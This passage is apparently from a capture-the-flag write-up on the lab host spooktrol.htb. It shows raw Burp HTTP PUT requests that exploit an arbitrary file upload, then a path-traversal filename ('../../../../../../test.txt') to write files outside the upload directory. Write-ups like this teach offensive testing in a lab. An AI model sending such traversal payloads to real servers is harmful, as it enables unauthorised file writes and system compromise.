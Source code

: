 It’s interesting that it keeps trying to run `whoami` (which Burp continues to
change to a file upload). I wonder if the C2 controller needs the `whoami`
output to log the initial beacon.

In Burp, the PUT request looks like:

    
    
    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 209
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close
    
    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="test.txt"
    Content-Type: text/plain
    
    this is some test data
    
    --------------------------184989c6c833691c--
    

### Arbitrary File Upload

#### Repeater

It seems like there’s a new cookie each time, so sending this request to
repeater might not work. But it’s worth a try, and it does:

![image-20211021212902740](https://0xdfimages.gitlab.io/img/image-20211021212902740.png)

#### Path Traversal

With it working in repeater, I can try to upload outside the current
directory:

    
    
    PUT /file_upload/ HTTP/1.1
    Host: spooktrol.htb
    User-Agent: curl/7.74.0
    Accept: */*
    Cookie: auth=17a831078f79c7c80a2dade8bd2edf50
    Content-Length: 218
    Content-Type: multipart/form-data; boundary=------------------------184989c6c833691c
    Connection: close
    
    --------------------------184989c6c833691c
    Content-Disposition: form-data; name="file"; filename="../../../../../../test.txt"
    Content-Type: text/plain
    
    this is some test data
    
    --------------------------184989c6c833691c--
    